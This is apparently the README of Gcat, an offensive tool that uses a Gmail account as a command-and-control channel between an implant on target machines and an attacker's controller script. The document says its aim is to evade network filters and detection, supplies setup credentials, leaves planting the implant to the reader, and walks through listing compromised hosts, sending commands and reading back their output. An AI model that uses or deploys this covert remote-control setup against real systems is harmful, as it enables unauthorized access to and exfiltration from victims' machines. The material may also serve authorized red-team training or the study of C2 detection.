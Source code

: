 # Gcat - Gmail cat
[Documentation](https://adhdproject.github.io/#!Tools/Attack/Gcat.md)
Netcat is a familiar tool, perhaps most commonly used to send data and run commands over plaintext tcp sockets. Gcat is a spin on this functionality, using Gmail instead of raw sockets to communicate. The purpose of Gcat is to circumvent common network filters that may block direct outbound communication or sniff out suspicious network activity. An employee (seemingly) accessing gmail is less suspicious than an inexplicable tcp connection dumping data to some suspicious server.

### Usage
Gcat works via two python scripts, `implant.py`, run on target machines, and `gcat.py`, run on the attacker's machine. 

1) The first step is to configure the two scripts by inserting a few tailored variable assignments at the top of each of them, eg the following
```python
gmail_user = 'gcat.is.the.shit@gmail.com'
gmail_pwd = 'veryc00lp@ssw0rd' 
server = 'smtp.gmail.com' 
server_port = 587
```
Additionally, the gmail account used must be configured to work with "less secure apps." [More info here.](https://support.google.com/accounts/answer/6010255?hl=en)

2) The second step is to install and run your edition of `implant.py` on your desired target machine(s). How you do this is left as an exercise to the reader.

3) The third and final step is to command your target machines using your edition of `gcat.py`. Some examples of usage follow:

Listing available machines:
```sh
$ python ./gcat.py -list
	f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86 
	90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86
```
Running a command:
```sh
$ python ./gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
	[*] Command sent successfully with jobid: SH3C4gv
```
Gcat does break away from traditional netcat, adding a layer of abstraction in the form of host and job IDs, but all in the pursuit of flexible control over Gmail.

Sending another request to retrieve the output from the command:
```sh
$ python ./gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv
    DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
    JOBID: SH3C4gv 
    FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py' 
    CMD: 'ipconfig /all'

	Windows IP Configuration 
		Host Name . . . . . . . . . . . . : unknown-2d44b52 
		Primary Dns Suffix . . . . . . . : 
		Node Type . . . . . . . . . . . . : 
		Unknown IP Routing Enabled. . . . . . . . : No 
		WINS Proxy Enabled. . . . . . . . : No
-- SNIP --
```
